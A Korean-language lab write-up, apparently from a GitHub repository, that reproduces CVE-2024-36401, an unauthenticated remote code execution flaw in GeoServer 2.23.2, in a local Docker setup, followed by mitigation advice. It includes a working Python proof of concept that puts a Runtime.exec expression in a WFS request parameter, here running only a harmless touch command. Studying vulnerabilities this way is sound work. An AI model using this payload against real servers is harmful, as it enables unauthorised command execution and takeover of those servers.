






# GeoServer 비인증 원격 코드 실행 취약점 (CVE-2024-36401)

Contributors

- [@YHS-Sec](https://github.com/YHS-Sec)

## 취약점 요약

CVE-2024-36401은 GeoServer가 OGC 요청의 속성 이름을 XPath 표현식으로 처리하는 과정에서 발생하는 원격 코드 실행 취약점이다.

취약한 버전에서는 외부에서 받은 속성 이름이 안전하게 제한되지 않은 상태로 GeoTools에 전달된다. 공격자는 이 부분에 Java 메서드를 호출하는 표현식을 넣어 GeoServer가 실행되는 서버에서 명령을 실행할 수 있다.

이번 실습에서는 GeoServer 2.23.2를 Docker로 실행한 뒤, WFS `GetPropertyValue` 요청을 이용해 컨테이너의 `/tmp` 경로에 빈 파일을 생성하는 방법으로 취약점을 확인했다.

| 항목 | 내용 |
| --- | --- |
| CVE | CVE-2024-36401 |
| 대상 | GeoServer / GeoTools |
| 실습 버전 | GeoServer 2.23.2 |
| 취약점 종류 | 비인증 원격 코드 실행(RCE) |
| CVSS 3.1 | 9.8 Critical |

> 이 환경은 취약점 학습을 위한 로컬 실습용이다. 허가받지 않은 시스템에는 사용하지 않는다.

## 환경 구성

### 파일 구조

```text
CVE-2024-36401/
├── images/
├── Dockerfile
├── docker-compose.yml
├── poc.py
└── README.md
```

### Dockerfile

임의로 제작된 취약 이미지 대신 Docker 공식 Tomcat 이미지를 기반으로 사용했다. GeoServer 2.23.2 WAR 파일은 공식 배포 경로에서 내려받아 Tomcat에 배포한다.

```dockerfile
FROM tomcat:9.0.80-jdk11-temurin-focal

RUN apt-get update && \
    apt-get install -y wget unzip

RUN wget -O /tmp/geoserver.zip \
    https://downloads.sourceforge.net/project/geoserver/GeoServer/2.23.2/geoserver-2.23.2-war.zip && \
    unzip /tmp/geoserver.zip -d /tmp/geoserver && \
    mv /tmp/geoserver/geoserver.war /usr/local/tomcat/webapps/geoserver.war && \
    rm -rf /tmp/geoserver /tmp/geoserver.zip

EXPOSE 8080

CMD ["catalina.sh", "run"]
```

### docker-compose.yml

호스트의 8081 포트를 컨테이너의 8080 포트에 연결했다. 외부에서 접근할 수 없도록 `127.0.0.1`에만 바인딩했다.

```yaml
services:
  geoserver:
    build: .
    ports:
      - "127.0.0.1:8081:8080"
```

다음 명령 하나로 이미지를 빌드하고 컨테이너를 실행할 수 있다.

```bash
docker compose up --build -d
```

컨테이너 실행 상태는 다음 명령으로 확인한다.

```bash
docker compose ps
```



GeoServer가 시작되면 다음 주소로 접속할 수 있다.

```text
http://127.0.0.1:8081/geoserver/web/
```





## 취약 조건

이번 환경에서 확인한 취약 조건은 다음과 같다.

- 취약한 버전의 GeoServer를 사용한다.
- GeoServer의 HTTP 서비스에 접근할 수 있다.
- WFS 요청을 사용할 수 있다.
- 요청에 실제 존재하는 Feature Type을 사용한다.
- 공격을 위해 별도의 로그인이나 사용자 동작이 필요하지 않다.

PoC의 `typeNames`에는 기본 데이터에 포함된 `sf:archsites`를 사용했다.

## PoC 코드

별도 패키지 설치 없이 실행할 수 있도록 Python 기본 라이브러리로 요청을 작성했다.

```python
import urllib.parse
import urllib.request
import urllib.error

url = "http://127.0.0.1:8081/geoserver/wfs"
params = {
    "service": "WFS",
    "version": "2.0.0",
    "request": "GetPropertyValue",
    "typeNames": "sf:archsites",
    "valueReference": "exec(java.lang.Runtime.getRuntime(),'touch /tmp/YHS-Sec-CVE-2024-36401')"
}
query = urllib.parse.urlencode(params)
try:
    response = urllib.request.urlopen(url + "?" + query)
    print(response.read().decode())
except urllib.error.HTTPError as e:
    print(e.read().decode())
```

`valueReference`에 Java의 `Runtime.exec()`를 호출하는 표현식을 넣었다. 실행되는 명령은 컨테이너 내부에 `YHS-Sec-CVE-2024-36401`이라는 빈 파일을 생성하는 `touch` 명령이다.

## 재현 절차

### 1. 기존 결과 삭제

이전 실행 결과가 남아 있지 않도록 증명 파일을 먼저 삭제한다.

```bash
docker compose exec geoserver rm -f /tmp/YHS-Sec-CVE-2024-36401
```

파일이 없는 상태를 확인했다.



### 2. PoC 실행

다음 명령으로 PoC를 실행한다.

```bash
python poc.py
```

서버 응답에서 `java.lang.ProcessImpl`과 `ClassCastException`을 확인할 수 있다.

```text
java.lang.ClassCastException: class java.lang.ProcessImpl cannot be cast to
class org.opengis.feature.type.AttributeDescriptor
```



GeoServer가 명령 실행 결과로 생성된 `ProcessImpl` 객체를 속성 정보 객체로 변환하려고 하면서 예외가 발생한다. 예외 응답이 발생하더라도 명령은 그전에 실행될 수 있다.

### 3. 실행 결과 확인

컨테이너 내부에서 증명 파일이 생성되었는지 확인한다.

```bash
docker compose exec geoserver ls -l /tmp/YHS-Sec-CVE-2024-36401
```

실행 결과:

```text
-rw-r--r-- 1 root root 0 ... /tmp/YHS-Sec-CVE-2024-36401
```



PoC 실행 전에는 존재하지 않던 파일이 요청을 전송한 뒤 생성되었다. 이를 통해 요청에 넣은 시스템 명령이 실제로 실행된 것을 확인했다.

## 위험도

공식 CVSS 3.1 점수는 9.8점이다.

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

- 네트워크를 통해 원격으로 악용할 수 있다.
- 공격 복잡도가 낮다.
- 인증이 필요하지 않다.
- 사용자의 추가 동작이 필요하지 않다.
- 공격에 성공하면 서버의 기밀성, 무결성, 가용성에 모두 영향을 줄 수 있다.

따라서 이 실습의 Risk Score는 공식 CVSS와 동일한 **9.8/10.0**으로 판단했다.

## 대응 방안

가장 확실한 대응 방법은 취약점이 수정된 버전으로 업데이트하는 것이다.

- GeoServer 2.22.6
- GeoServer 2.23.6
- GeoServer 2.24.4
- GeoServer 2.25.2

업데이트를 바로 적용하기 어려운 경우 GeoServer 공식 안내에 따라 취약한 `gt-complex` 모듈을 제거할 수 있다. 다만 해당 모듈을 사용하는 기능에 문제가 생길 수 있으므로 적용 전에 확인이 필요하다.

추가로 다음과 같은 조치를 적용할 수 있다.

- GeoServer를 인터넷에 직접 노출하지 않는다.
- 방화벽이나 리버스 프록시를 이용해 접근 가능한 IP를 제한한다.
- 사용하지 않는 WFS 및 WMS 기능을 비활성화한다.
- 요청 로그에서 Java 클래스 호출이나 비정상적인 XPath 표현식을 확인한다.
- 공격 흔적이 발견되면 패치뿐만 아니라 서버 내부의 파일과 프로세스도 점검한다.

## 재현성

환경은 Docker Compose로 구성했으며 PoC에는 Python 기본 라이브러리만 사용했다. 별도의 공격 도구나 Python 패키지 설치가 필요하지 않다.

깨끗한 환경에서는 다음 순서로 확인할 수 있다.

```bash
docker compose up --build -d
python poc.py
docker compose exec geoserver ls -l /tmp/YHS-Sec-CVE-2024-36401
docker compose down -v --remove-orphans
```

동일한 파일과 명령을 사용하면 결과를 확인할 수 있으므로 예상 Reproducibility는 **90%**로 판단했다.

## 환경 종료

실습을 마친 뒤 다음 명령으로 컨테이너와 네트워크를 종료한다.

```bash
docker compose down -v --remove-orphans
```

## 참고 자료

- [NVD - CVE-2024-36401](https://nvd.nist.gov/vuln/detail/CVE-2024-36401)
- [GeoServer 시큐리티 안내](https://geoserver.org/vulnerability/2024/09/12/cve-2024-36401.html)
- [GitHub Security Advisory](https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv)
- [Vulhub CVE-2024-36401](https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2024-36401)
